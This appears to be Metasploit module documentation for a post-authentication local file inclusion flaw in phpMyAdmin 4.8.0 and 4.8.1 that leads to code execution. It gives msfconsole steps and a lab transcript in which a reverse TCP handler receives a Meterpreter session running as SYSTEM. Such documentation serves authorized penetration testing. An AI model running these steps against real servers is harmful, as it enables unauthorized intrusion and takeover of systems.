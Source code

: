 ## Description

phpMyAdmin v4.8.0 and v4.8.1 are vulnerable to local file inclusion, which can be exploited post-authentication to execute PHP code within application. The module has been tested with phpMyAdmin v4.8.1.

## Vulnerable Application

[phpMyAdmin v4.8.1](https://files.phpmyadmin.net/phpMyAdmin/4.8.1/phpMyAdmin-4.8.1-all-languages.zip) and v4.8.0

## Verification Steps

1. `./msfconsole -q`
2. `use exploit/multi/http/phpmyadmin_lfi_rce`
3. `set rhosts <rhost>`
4. `run`

## Scenarios

### Tested on Windows 7 x64 using PHP 7.2.4 and phpMyAdmin 4.8.1

```
msf5 > use exploit/multi/http/phpmyadmin_lfi_rce
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > set rhosts 172.22.222.122
rhosts => 172.22.222.122
msf5 exploit(multi/http/phpmyadmin_lfi_rce) > run

[*] Started reverse TCP handler on 172.22.222.190:4444
[*] Sending stage (37775 bytes) to 172.22.222.122
[*] Meterpreter session 1 opened (172.22.222.190:4444 -> 172.22.222.122:51999) at 2018-07-05 13:14:39 -0500

meterpreter > getuid
Server username: SYSTEM (0)
meterpreter > sysinfo
Computer    :
OS          : Windows NT 6.1 build 7601 (Windows 7 Professional Edition Service Pack 1) i586
Meterpreter : php/windows
meterpreter >
```
